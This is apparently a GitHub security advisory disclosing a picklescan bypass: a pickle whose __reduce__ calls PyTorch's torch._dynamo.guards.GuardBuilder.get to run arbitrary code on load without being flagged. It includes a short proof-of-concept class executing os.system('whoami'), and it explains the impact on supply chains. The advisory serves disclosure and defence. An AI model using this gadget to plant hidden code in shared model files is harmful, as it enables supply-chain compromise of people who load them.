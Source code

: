 ### Summary

Using torch._dynamo.guards.GuardBuilder.get function, which is a pytorch library function to execute remote pickle file.

### Details

The attack payload executes in the following steps:

First, the attacker craft the payload by calling to torch._dynamo.guards.GuardBuilder.get function in reduce method
Then when the victim after checking whether the pickle file is safe by using Picklescan library and this library doesn't dectect any dangerous functions, decide to pickle.load() this malicious pickle file, thus lead to remote code execution.

### PoC

```
import types
import torch._dynamo.guards as guards

class EvilTorchDynamoGuardsGet:
    def __reduce__(self):
        fake_self = types.SimpleNamespace(scope={})
        name = "__import__('os').system('whoami')"
        return guards.GuardBuilder.get, (fake_self, name)
```

### Impact

Who is impacted? Any organization or individual relying on picklescan to detect malicious pickle files inside PyTorch models.
What is the impact? Attackers can embed malicious code in pickle file that remains undetected but executes when the pickle file is loaded.
Supply Chain Attack: Attackers can distribute infected pickle files across ML models, APIs, or saved Python objects.

### Corresponding

https://github.com/FredericDT
https://github.com/Qhaoduoyu

